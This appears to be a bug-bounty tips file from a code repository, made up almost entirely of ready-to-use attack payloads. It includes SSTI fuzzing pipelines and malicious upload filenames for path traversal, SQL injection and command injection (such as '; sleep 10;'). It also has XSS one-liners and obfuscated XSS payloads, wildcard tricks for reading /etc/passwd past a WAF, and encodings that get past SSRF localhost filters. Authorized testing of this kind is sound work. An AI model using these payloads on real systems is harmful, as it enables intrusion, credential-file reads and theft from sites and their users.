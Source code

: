 # Bug Bounty Tips File -3
## SSTI to RCE oneliner check
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
 ```sh
 waybackurls https://abc.com | grep '=' | qsreplace "abc{{9*9}}"  | httpx -match-regex 'abc81' -threads 300 -http-proxy http://127.0.0.1:8080/
 ```
search: abc81 in burpsuite search and check
## Chaining file uploads with other vulns:-
 Set filename to:- 
`../../../tmp/lol.png` for path traversals
`sleep(10)-- -.jpg` for SQLi.
`<svg onload=alert(document.comain)>.jpg/png` for xss
`; sleep 10;` for command injections
## Extract urls,srcs and hrefs from all HTML elements in any website
**Open DevTools and run **
```js
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls))
```
## XSS
### XSS Oneliner
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
### XSS Payloads for short length inputs
```js
<script src=//⑮.₨></script>
```
### XSS Payloads
```js
 img{background-image:url('javascript:alert()')}
 <svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))> 
 ```
### Stored XSS Payloads
```js
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
```
## WAF Bypass
***WAF restriction? Use these:***
 ```sh
 /etc/passwd 
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
## SSRF Localhost Access Bypass
```sh
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
```
### When you are testing sharepoint applications check this file path that sometimes leads to directory listing:
```js
/_layouts/mobile/view.aspx
Google dork: /_layouts/mobile/view.aspx
```


